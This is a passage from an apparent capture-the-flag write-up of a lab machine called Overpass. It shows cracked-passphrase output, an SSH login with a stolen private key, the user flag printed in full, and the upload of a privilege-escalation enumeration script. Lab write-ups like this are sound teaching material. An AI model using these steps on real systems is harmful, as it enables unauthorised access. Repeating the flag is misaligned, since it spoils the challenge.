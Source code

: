 ```bash
1g 0:00:00:01 DONE 3/3 (2024-10-15 15:19) 0.6622g/s 945086p/s 945086c/s 945086C/s jamest1..jamanah
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
``` 

And our password for the key is `james13`!!!

Lets try to connect with `ssh`now:

```bash

┌──(admin㉿PREDATOR-01)-[~/overpass]
└─$ ssh james@$ip -i ssh_privkey.txt
Enter passphrase for key 'ssh_privkey.txt':
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Oct 15 07:21:11 UTC 2024

  System load:  0.0                Processes:           88
  Usage of /:   22.3% of 18.57GB   Users logged in:     0
  Memory usage: 12%                IP address for eth0: 10.10.109.109
  Swap usage:   0%


47 packages can be updated.
0 updates are security updates.


Last login: Sat Jun 27 04:45:40 2020 from 192.168.170.1
james@overpass-prod:~$

```

We are connected!!

Lets search the `user flag`.
```bash
james@overpass-prod:~$ cat user.txt
thm{65c1aaf000506e56996822c6281e6bf7}
```

Answer: `thm{65c1aaf000506e56996822c6281e6bf7}`



### Escalate your privileges and get the flag in root.txt

We dont have a proper `password` so lets try to find some vulnerabilities with `linepeas.sh`

With `scp` we can send the script over to the target:

```bash

└─$ scp -i ~/overpass/ssh_privkey.txt ~/scripts/linepeas.sh  james@$ip:~
Enter passphrase for key '/home/admin/overpass/ssh_privkey.txt':
linepeas.sh                                                                                                                                      100%  804KB 259.2KB/s   00:03


```
